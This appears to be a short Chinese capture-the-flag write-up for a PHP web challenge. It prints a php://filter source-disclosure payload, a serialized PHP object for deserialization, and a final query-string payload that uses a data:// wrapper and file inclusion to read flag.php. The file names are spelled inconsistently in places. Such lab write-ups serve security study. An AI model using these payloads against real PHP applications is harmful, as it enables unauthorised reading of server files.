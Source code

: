 ​	else里提示uselesss.php，既然有include，那就直接用filter读一下

```
file=php://filter/convert.base64-encode/resource=userless.php
```



```php
<?php  

class Flag{  //flag.php  
    public $file='flag.php';  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```

​	获得其源码,存在一个tostring()方法，只要能利用__tostring方法就能读到flag。

​	这边存在一个

```
echo file_get_contents($this->file); 
```

也就是说执行反序列化后，echo Flag对象就可以执行__tostring方法，进而读到flag。这样小链子就出来了

```php
<?php  

class Flag{  //flag.php  
    public $file='flag.php';  
}  

$a = new Flag();
$b = serialize($a);
// echo urlencode($b);
echo $b;
?>  
#O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

```
payload:
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

​	查看源码获得flag
